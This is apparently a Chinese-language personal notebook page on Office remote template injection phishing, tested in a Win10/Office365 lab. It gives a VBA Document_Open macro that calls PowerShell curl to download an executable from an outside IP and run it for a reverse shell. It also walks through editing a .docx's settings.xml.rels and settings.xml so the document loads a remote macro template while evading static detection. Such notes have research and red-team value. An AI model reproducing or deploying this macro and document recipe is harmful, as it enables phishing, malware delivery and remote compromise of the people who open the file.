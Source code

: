 ```yaml
---
date: 2024-06-04
---
```


# Office关系模板注入

> [干货 | Office文档钓鱼的实战和免杀技巧-腾讯云开发者社区-腾讯云 (tencent.com)](https://cloud.tencent.com/developer/article/1917641)
>
> [wps和office宏钓鱼从认识到免杀 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/network/317116.html)
>
> [已阻止有潜在危险的宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/topic/已阻止有潜在危险的宏-0952faa0-37e7-4316-b61d-5b5ed6024216)
>
> [利用模板注入攻击关键基础设施 (cisco.com)](https://www.cisco.com/c/dam/m/zh_cn/products/security/talos/template-injection.pdf)
>
> 

- 测试环境: Win10+Office365

利用Word文档加载附加模板时的缺陷所发起的恶意请求，而达到的攻击目的，当目标用户点开攻击者发送的恶意Word文档就可以通过向远程服务器发送恶意请求的方式，然后加载模板执行恶意模板的宏。

发送的文档本身不带恶意代码，所以能过很多静态检测。只需要在远程DOTM文档中编写宏病毒或者木马即可。

制作一个宏钓鱼的文档挂载到 HTTP 服务器上, 例如前面的 VBA 宏调 Powershell 下载与执行文件达成反弹shell

```vb
Private Sub Document_Open()

Call Shell(Environ$("COMSPEC") & " /c powershell.exe curl http://100.1.1.131:8000/download/msedge.exe -o msedge.exe && msedge.exe", vbNormalFocus)

End Sub

```

选定目标 word 文档后将其后缀名改成 `.zip` 并解压

![image-20240611053738672](http://cdn.ayusummer233.top/DailyNotes/202406110609857.png)

整体目录结构如下:

![image-20240611053804070](http://cdn.ayusummer233.top/DailyNotes/202406110609303.png)

制作关系模板注入文档主要需要修改两个文件

- `\word\_rels\settings.xml.rels`

  一般 `word/_rels` 文档里可能只有 `document.xml.rels` 没有  `settings.xml.rels`, 此时需要新建一个 `settings.xml.rels` 文档

  ![image-20240611054035175](http://cdn.ayusummer233.top/DailyNotes/202406110609832.png)

  几个关键点

  - `Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"`

    最后一定要是 `attachedTemplate` 定义关系模板

  - `TargetMode` 要是 `External` 外部模板定义

- `\word\settings.xml`

  在 `w:settings` 属性中定义外部模板

  ![image-20240611054105685](http://cdn.ayusummer233.top/DailyNotes/202406110609115.png)

将目录重新打包成 zip 并重命名为 docx 文档

![image-20240611055158981](http://cdn.ayusummer233.top/DailyNotes/202406110609548.png)

到这里模板注入的钓鱼文档就制作好了, 但是由于这里外联模板直接填的ip是不受信任的, 因此这里即便打开了也不会正常加载外部模板, 需要添加受信任站点

> [已阻止有潜在危险的宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/topic/已阻止有潜在危险的宏-0952faa0-37e7-4316-b61d-5b5ed6024216)

打开 `Internet选项->受信任的站点->站点` 添加目标主机即可

![image-20240611103839273](http://cdn.ayusummer233.top/DailyNotes/202406111038830.png)

![image-20240611103954699](http://cdn.ayusummer233.top/DailyNotes/202406111039797.png)

![image-20240611104113796](http://cdn.ayusummer233.top/DailyNotes/202406111041875.png)

---

打开该文档便会下载外部模板文档并执行宏代码达成反弹shell:

![image-20240611060918908](http://cdn.ayusummer233.top/DailyNotes/202406110609052.png)

![image-20240611060910931](http://cdn.ayusummer233.top/DailyNotes/202406110609182.png)



---

## 相关链接

- [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)

---

